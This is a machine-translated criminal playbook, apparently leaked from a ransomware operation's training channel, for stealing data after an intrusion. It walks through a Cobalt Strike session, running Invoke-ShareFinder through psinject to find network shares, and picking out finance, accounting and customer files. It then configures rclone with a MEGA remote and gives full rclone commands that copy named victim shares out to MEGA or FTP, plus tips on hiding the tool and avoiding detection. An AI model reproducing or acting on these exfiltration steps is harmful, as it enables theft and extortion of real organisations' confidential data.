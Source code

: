 # HOW-AND-WHAT-INFORMATION-TO-DOWNLOAD
1) After we raised the rights, found the Admin Domain, we pull the session into the cobalt
2)We put the YES token on and Remove the balls this way :
    *powershell-import - we upload ShareFinder there as usual and give the room the following -
psinject 7080 x64 Invoke-ShareFinder -CheckShareAccess -Verbose | Out-File -Encoding ascii C:\ProgramData\found_shares.txt

Next, we study the removed balls, we're interested in
*Finance docs
*Accounting
*IT
*Customers
*Projects
And so on, it all depends on what our target is doing.

Next we do the following > here's the Diablo Manual, everything is easy to understand

Click on
you need to create a config in order to start downloading from the clone
to create a config open cmd go to the directory where rclone.exe is
Run rclone.exe with the command: rclone config
choose from the menu new remote
call it mega and enter mega once more
after that we typed the mega mail address after it will ask for a password to enter or generate we will choose yours with the letter 'Y'
the password won't show up on insertion but it's still there
after creating the config you get thrown back to the main menu and you get out of the rclone.
then enter the command rclone.exe config show it will show the config
copy it and create file rclone.conf where we put this information.
when we found the balloons we download the exe and the config to the target machine with the rights to hide the config and the exe so they will not be found
go to the exe directory and give the following command: shell rclone.exe copy "\\envisionpharma.com\IT\\KLSHARE" Mega:Finanse -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 12
where: \envisionpharma.com\IT\KLSHARE are balls
Mega:Finanse is the location of the files in the mega (can create a folder in the mega on its own)
streams 12 --transfers 12 is the number of streams that pump to the maximum (12) is not recommended because you can easily get caught



shell rclone.exe copy "\PETERLENOVO.wist.local/Users" ftp1:uploads/Users/ -q --ignore-existing --auto-confirm --multi-thread-streams 3 --transfers 3 - here is an example in this case on FTP

!!! THE PCLONE ITSELF WEIGHS ABOUT 50MB, THE LINK TO IT WILL BE BELOW THE POST!!!

CREDITS: Learners Room @dtob1804
